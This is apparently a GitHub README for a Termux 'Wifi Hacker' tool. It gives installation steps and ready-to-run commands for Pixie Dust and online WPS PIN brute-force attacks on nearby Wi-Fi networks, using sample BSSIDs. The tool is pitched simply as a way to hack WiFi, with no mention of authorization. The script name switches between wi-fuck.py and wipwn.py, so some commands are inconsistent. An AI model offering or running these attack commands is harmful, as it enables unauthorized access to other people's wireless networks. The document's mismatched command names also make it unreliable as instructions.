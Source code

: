 <h1 align="center">Wifi Hacker</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/MontouchUK/Wi-Fuck 
cd wi-fuck 
pip3 install -r requirements.txt
chmod +x wi-fuck.py
```
#### Help : `sudo python wi-fuck.py --help`
#### Example : `sudo python wi-fuck.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2023 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/MontouchUK/Wi-Fuck"> Here </a>

##### Modify History : rofl0r => 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/montouch.mohaimin" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Montouch" height="30" width="40" /></a>
</div>
<a href="https://github.com/sadman-11">  <img align="center" src="https://visitor-badge.laobi.icu/badge?style=flat-square&page_id=sadman-11.wifi-hack"></a>
